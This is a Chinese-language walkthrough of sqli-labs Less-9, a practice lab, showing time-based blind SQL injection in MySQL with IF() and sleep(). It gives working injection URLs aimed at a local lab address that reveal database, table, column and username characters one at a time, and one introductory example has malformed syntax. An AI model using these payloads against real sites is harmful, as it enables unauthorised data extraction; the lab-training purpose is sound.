

# Less - 09

---

# 一、补充知识

---

时间注入是利用sleep()或benchmark()等函数让MySQL的执行时间变长。时间盲注多与IF(expr1,expr2,expr3)结合使用，此if语句含义是：如果expr1是TRUE，则IF()的返回值为expr2；否则返回值则为expr3。  
例：  
if (length(database())>1,1,sleep(5))，这句语句的意思是查看当前数据库的长度是否大于1，大于1则查询1，小于1MySQL查询休眠5秒  
if (substr(database()),1,1='s',1,sleep(5))，这句语句的意思是查看当前数据库的第一个字母是否为’s’，为’s’则查询1，不为’s’MySQL查询休眠5秒

---

# 二、通关教程

---

## 1、判断闭合

---

先传入id=1

​​

加上一个单引号

​​

将单引号修改为双引号

​​

​​

注意回显的时间，返回时间长的就是闭合成功

---

## 2、判断当前数据库长度

---

```html
http://192.168.225.132/sqli-labs/Less-9/?id=1'+and+if(length(database())=8,1,sleep(5))--+
```

​查看当前数据库的第一个字母​

---

## 3、查看当前数据库的第一个字母

---

```html
http://192.168.225.132/sqli-labs/Less-9/?id=1' and if(substr(database(),1,1)='a',1,sleep(5))--+
```

​​

---

## 4、查看security库下的第一张表的第一个字母

---

```html
http://192.168.225.132/sqli-labs/Less-9/?id=1' and if(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1)='s',1,sleep(5))--+
```

​​

---

## 5、查看users表下的第一个字段的第一个字母

---

```html
http://192.168.225.132/sqli-labs/Less-9/?id=1' and if(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1)='s',1,sleep(5))--+
```

​​

---

## 6、查username字段的第一个值得第一个字母

---

```html
http://192.168.225.132/sqli-labs/Less-9/?id=1' and if(substr((select username from security.users limit 0,1),1,1)='s',1,sleep(5))--+
```

​​
